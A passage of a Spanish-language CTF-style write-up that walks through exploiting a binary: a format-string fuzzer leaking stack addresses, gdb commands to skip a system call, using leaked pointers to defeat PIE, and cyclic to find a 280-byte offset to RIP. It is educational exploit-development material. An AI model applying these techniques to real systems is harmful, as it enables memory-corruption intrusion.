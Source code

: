 ```python
```



```bash
./format_fuzzer.py

4 b'0x557f3d6026b5\n'

41 b'0x561bf357a6c0\n'

43 b'0x55e4378d139e\n'

49 b'0x55c0e792931e\n'
```

Podemos inspeccionarlas con *gdb*. Pero debemos tener en cuenta que se llama a `system("date")`, lo que hace que se cree un nuevo hilo de ejecución, impidiéndonos depurar. Para ello debemos poner un *breakpoint* justo antes y saltarnos la instrucción:

```bash
b *save_msg+146     //break antes de system
b *save_msg+254     //break para inspeccionar el stack
r
jump *save_msg+154  //Nos saltamos system
```

Una vez inspeccionamos las direcciones vemos cosas útiles:

# La 41 es un puntero al principio del campo nombre
x/s 0x561bf357a6c0
0x561bf357a6c0:	"bytebl33d"

# La 43 apunta a main+128
x 0x55e4378d139e
0x55e4378d139e <main+128>:	0x00fc45c7

Vemos que tenemos una dirección donde se guarda la cadena que hemos introducido. Además, tenemos una forma de encontrar el offset de esta dirección a la dirección base de `main` mediante la segunda dirección.


## Buscando el offset

Ya sólo necesitamos encontrar el offset hasta el *RIP*. Para ello volveremos a utilizar *gdb-peda* y *cyclic*, saltándonos la llamada a *system*:

```
RSP: 0x7fffffffdc18 ("uaacvaacwaacxaacyaac")

cyclic -l uaacvaac
280
```
